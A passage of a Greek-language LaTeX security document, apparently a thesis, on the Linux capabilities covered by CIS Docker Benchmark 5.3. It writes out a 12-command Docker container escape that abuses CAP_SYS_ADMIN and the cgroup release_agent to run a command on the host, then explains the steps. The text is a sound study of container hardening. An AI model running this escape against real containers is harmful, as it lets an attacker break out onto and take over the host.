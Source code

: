 Το \textlatin{CIS Docker Benchmark} καλύπτει όλα αυτά τα προβλήματα σε μία
κατευθυντήρια γραμμή: 5.3 (Βεβαιωθείτε ότι οι δυνατότητες του πυρήνα του
\textlatin{Linux} είναι περιορισμένες εντός των κοντέινερ).

\subsubsection{\texttt{\textlatin{CAP\_SYS\_ADMIN}}}

Η απόδραση \textlatin{Docker} σύμφωνα με τον \textlatin{Felix Wilhelm}
\cite{Felix-Wilhem-Tweet} που χρησιμοποιήσαμε στην ενότητα 4.1.3 χρειάζεται να
εκτελείται σε προνομιακή λειτουργία για να λειτουργήσει, αλλά μπορεί να
ξαναγραφτεί για να χρειάζεται μόνο το δικαίωμα εκτέλεσης του προσαρτήματος
\cite{TrailOfBits-Docker-Escape}, το οποίο χορηγείται από την δυνατότητα
\texttt{\textlatin{CAP\_SYS\_ADMIN}}. \\

\texttt{\textlatin{1. (host)\$ docker run --rm -it --cap-add=CAP\_SYS\_ADMIN --security -opt apparmor=unconfined ubuntu /bin/bash}}

\texttt{\textlatin{2. (cont)\# mkdir /tmp/cgrp}}

\texttt{\textlatin{3. (cont)\# mount -t cgroup -o rdma cgroup /tmp/cgrp}}

\texttt{\textlatin{4. (cont)\# mkdir /tmp/cgrp/x}}

\texttt{\textlatin{5. (cont)\# echo 1 > /tmp/cgrp/x/notify\_on\_release}}

\texttt{\textlatin{6. (cont)\# host\_path=`sed -n 's/.*\textbackslash perdir=\textbackslash ([\^,]*\textbackslash).*/\textbackslash 1/p' /etc/mtab`}}

\texttt{\textlatin{7. (cont)\# echo "\$host\_path/cmd" > /tmp/cgrp/release\_agent}}

\texttt{\textlatin{8. (cont)\# echo '\#!/bin/sh' > /cmd}}

\texttt{\textlatin{9. (cont)\# echo "ps aux > \$host\_path/output" >> /cmd}}

\texttt{\textlatin{10. (cont)\# chmod a+x /cmd}}

\texttt{\textlatin{11. (cont)\# sh -c "echo \textbackslash \$\textbackslash \$ > /tmp/cgrp/x/cgroup.procs"1}}

\texttt{\textlatin{12. (cont)\# cat /output}} \\

Σε αντίθεση με πριν, αντί να βασιζόμαστε στη παράμετρο
\texttt{\textlatin{--privileged}} για να μας δώσει πρόσβαση εγγραφής σε ένα
\textlatin{cgroup}, πρέπει απλώς να κάνουμε \textlatin{mount} τη δική μας. Στη
γραμμή 2 και γραμμή 3 ένα νέο \textlatin{cgroup} με όνομα \textlatin{cgrp}
δημιουργείται και προσαρτάται στο \textlatin{/tmp/cgrp}. Τώρα έχουμε ένα
\textlatin{cgroup} στο οποίο έχουμε επίσης πρόσβαση εγγραφής, έτσι μπορούμε να
εκτελέσουμε το ίδιο \textlatin{exploit} όπως στο ενότητα 4.1.3.


